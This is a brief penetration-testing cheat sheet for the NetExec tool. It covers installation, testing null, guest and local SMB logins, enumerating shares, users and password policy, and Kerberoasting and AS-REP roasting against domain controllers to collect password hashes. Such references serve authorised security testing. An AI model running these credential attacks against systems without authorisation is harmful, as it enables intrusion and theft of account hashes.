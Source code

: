 Netexec is a powerful tool often used for exploitation in Active Directory Environments, though it can broadly be used against most windows targets.

## Installation
```bash
sudo apt install pipx git  
pipx ensurepath  
pipx install git+https://github.com/Pennyw0rth/NetExec
```
## Testing Authentication

```bash
# Guest Login
netexec smb target -u 'guest' -p ''

# Null Login
netexec smb target -u '' -p ''

# Local Authentication
netexec smb target -u username -p password --local-auth
```

## SMB
NetExec can be used to enumerate and exploit SMB.
```bash
# List Shares
netexec smb target -u '' -p '' --shares  

# Enumerate Information
netexec smb target -u username -p password --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol

# Kerberoast, target must be DC
netexec ldap target -u username -p password --kerberoasting hash.txt  

# ASREP-Roast, target must be DC
netexec ldap target -u username -p password --asreproast hash.txt
```

## Resources
https://seriotonctf.github.io/2024/03/07/CrackMapExec-and-NetExec-Cheat-Sheet/
